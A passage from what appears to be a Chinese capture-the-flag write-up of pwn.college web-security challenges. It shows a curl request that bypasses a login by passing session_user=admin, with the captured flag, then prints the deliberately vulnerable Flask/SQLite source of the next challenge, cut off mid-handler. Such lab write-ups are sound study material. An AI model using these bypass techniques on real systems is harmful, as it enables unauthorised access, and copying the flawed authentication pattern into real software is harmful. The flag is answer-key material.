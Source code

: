 

## 实现

我的exp

```bash
hacker@web-security~authentication-bypass-1:~$ curl http://challenge.localhost:80/?session_user=admin
<html><body>Hello, admin!<br>Here is your flag: pwn.college{sVPdxjB5_37fjKs0IdbId1NlsbS.QX5gzMzwCO5IzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    hacker@web-security~authentication-bypass-1:~$ 
```

# 10-Authentication Bypass 2

## 问题描述

```python3
hacker@web-security~authentication-bypass-2:~$ cat /challenge/server 
#!/opt/pwn.college/python

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

```